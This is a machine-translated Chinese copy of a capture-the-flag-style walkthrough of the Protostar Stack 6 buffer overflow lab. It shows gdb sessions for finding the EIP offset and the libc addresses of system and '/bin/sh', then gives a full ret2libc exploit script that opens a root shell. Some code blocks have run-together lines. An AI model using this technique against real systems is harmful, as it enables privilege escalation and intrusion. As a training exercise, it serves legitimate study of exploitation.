




# [ExpDev]漏洞利用练习|原恒星|堆栈 6

> 原文：<https://infosecwriteups.com/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6?source=collection_archive---------2----------------------->


# 堆栈 6 (ret2libc)

此挑战的目标是绕过对返回地址的限制，并导致任意代码执行。对返回地址的限制将阻止我们使用堆栈中的任何地址。为了避免这一点，我们将利用一种称为面向返回的编程(“ROP”)或返回到 libc(“ret 2 libc”)的技术。

*   链接:[https://exploit-exercises.lains.space/protostar/stack6/](https://exploit-exercises.lains.space/protostar/stack6/)



## 注意事项

*   `gets(buffer);`:易受攻击的函数。它从 stdin 中读取一行，但不检查缓冲区溢出→这容易受到 BOF 类型的攻击。
*   `char buffer[64];`:这将我们的缓冲区长度限制为 64 字节。→我们可以输入超过 64 个字节来引起 BOF。
*   `if((ret & 0xbf000000) == 0xbf000000)`:这是对栈上返回地址的限制。我们可以通过检查 gdb 中的内存映射来确认这一点。

## 限制

让我解释一下这是如何限制我们使用堆栈地址的。当我们用 gdb 运行程序并反汇编`getpath` func 时，我们将看到以下计算:



所以 AND 运算(一条 ASM 逻辑指令)的本质是，如果我们输入任何以`0xbf`开始的地址，它将对`EAX`和`0xbf000000`进行 AND 运算，并再次比较`EAX`和`0xbf000000`。简单来说:

```
If we want to JMP to an address = 0xbfffff01**Operation** |    **HEX**    |    **Binary**
__________|___________|__________________________________________

           0xbfffff01 = 10111111 11111111 11111111 00000001
      **AND**  0xbf000000 = 10111111 00000000 00000000 00000000
_________________________________________________________________ 0xbf000000 = 10111111 00000000 00000000 00000000This will always end up being 0xbf000000.
```

因此，与我们在 [Stack5](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack-5-c8d085c914e6) 练习中所做的不同(将我们自己的外壳代码引入堆栈，并将我们的 JMP 指向一个堆栈地址来执行我们的外壳代码)，我们被限制使用这种技术。

# 利用(ret2libc)

为了规避这种类型的限制，我们可以利用面向返回的编程，特别是 ret2libc 技术。简单地说，ret2libc 基本上是我们将地址返回/跳转到一个名为 libc 的编程库中。在 libc 中，有一个 syscall 叫做`system`，我们可以用它打开一个 shell。

## 寻找偏移

让我们创建一个 python 脚本来查找可以控制 EIP 的偏移值:

```
#!/usr/bin/pythonpadding = "A" * 70
padding+= "BBBBCCCCDDDDEEEEFFFFGGGG"print padding
```

然后，在一个文件中创建一个漏洞利用的输出，以便我们可以用 gdb 运行它。

```
$ python exploit.py > /tmp/stack6/exploit
```

现在，运行 gdb 并提供漏洞文件。

```
**$ gdb -q stack6**
  Reading symbols from /opt/protostar/bin/stack6...done.
**(gdb) break * getpath**
  Breakpoint 1 at 0x80483c4: file stack5/stack5.c, line 7.
**(gdb) run < /tmp/stack6/exploit**
  Starting program: /opt/protostar/bin/stack6 < /tmp/stack6/exploit  Breakpoint 1, getpath () at stack6/stack6.c:7
  7 stack6/stack6.c: No such file or directory. in stack6/stack6.c
**(gdb) continue**
  Continuing.
  input path please: got path
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDEEAABBBBCCCCDDDDEEEEFFFFGGGG  Program received signal SIGSEGV, Segmentation fault.
 ** 0x45454444** in ?? ()
```

“0x44”和“0x45”在 ASCII 表示中分别是“D”和“E”。因此，偏移量为 80 (= 70 + "BBBBCCCCDD ")。

```
**...
(gdb) continue**
  Continuing.  Program received signal SIGSEGV, Segmentation fault.
  **0x44444343** in ?? ()                             
**(gdb) info registers** eax            0x68 104
  ecx            0x0 0
  edx            0xb7fd9340 -1208118464
  ebx            0xb7fd7ff4 -1208123404
  esp            0xbffff7a0 0xbffff7a0
  ebp            0x44444343 0x44444343
  esi            0x0 0
  edi            0x0 0
  **eip            0x45454444 0x45454444**   **<---- EIP Overflowed**
  eflags          0x210296 [ PF AF SF IF RF ID ]  eax
```

此外，现在我们可以在崩溃时控制 EIP，这意味着我们可以跳转到堆栈中的任何位置。

## 查找 libc 地址

运行程序时，我们可以检查哪个 libc 库正在使用，以及使用 gdb 的地址空间。

```
**(gdb) info proc mappings**
  process 5503
  cmdline = '/opt/protostar/bin/stack6'
  cwd = '/opt/protostar/bin'
  exe = '/opt/protostar/bin/stack6'
```



查找`system`系统调用地址:

```
**(gdb) p system**
  $1 = {<text variable, no debug info>} **0xb7ecffb0** <__libc_system>
```

在 libc 中查找`/bin/sh`地址:

```
**$ strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"**
  **11f3bf** /bin/sh   

  -a   = Scan entire file
  -t x = Print the offset location of the string in hexdecimalTo confirm...**(gdb) x/s 0xb7e97000 + 0x11f3bf   <-- libc start address + offset**
  0xb7fb63bf:  "/bin/sh"
```

## 漏洞脚本

让我们把所有东西放在一起，创造我们的利用:

```
**[exploit.py]**#!/usr/bin/python
import struct**### EIP Offset**
padding = "A" * 80**### libc system**
system = struct.pack("I", 0xb7ecffb0)**### Return Address After system**
ret = "\x90" * 4**### libc /bin/sh** 
shell = struct.pack("I", 0xb7e97000 + 0x11f3bf)
print padding + system + ret + shell
```

一旦我们使用`cat`技巧运行上述漏洞利用脚本，无需引入任何外壳代码，我们就可以成功打开一个具有 root 权限的`/bin/sh`外壳。

```
$ (python /tmp/stack6/exploit.py; cat) | ./stack6
```



感谢阅读！

## 下一个挑战:

*   [**栈 7**](https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-7-fea3ac85ffe7) —基于栈的 BOF: ROP (ret2.text)

